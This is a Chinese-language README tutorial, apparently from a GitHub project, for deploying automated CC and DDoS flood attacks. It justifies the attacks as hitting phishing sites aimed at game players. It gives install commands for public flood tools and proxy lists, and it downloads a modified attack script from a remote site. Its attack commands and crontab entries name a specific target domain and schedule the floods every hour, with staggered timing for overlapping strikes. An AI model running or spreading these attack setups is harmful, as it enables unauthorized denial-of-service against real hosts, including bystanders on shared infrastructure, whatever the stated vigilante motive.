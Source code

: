 # Nyaa:Automata
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
    apt update -y
    apt install git vim zip python3 python3-pip -y
    wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
    pip3 install -r requirements.txt

## 安装CC-attack

    git clone https://github.com/Leeon123/CC-attack.git

## 获取Proxy-List（cc的喂料包，这有点大）
    git clone https://github.com/ShiftyTR/Proxy-List.git

## 安装overload（ddos工具）
    git clone https://github.com/7zx/overload.git
    cd overload/
    wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
    cd ..

* overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
    python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30

* 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
    python3 ~/overload/overload_p.py

* 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
    crontab -e

* (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
    0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30
    30 * * * * python3 ~/overload/overload_p.py

* 编辑完成后按esc退出编辑
* 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
* 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)

* 每个时间单位的位置都可以写多个值，英文逗号分隔
* 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
* 跟多语法请阅读 [**Linux crontab 命令 | 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）
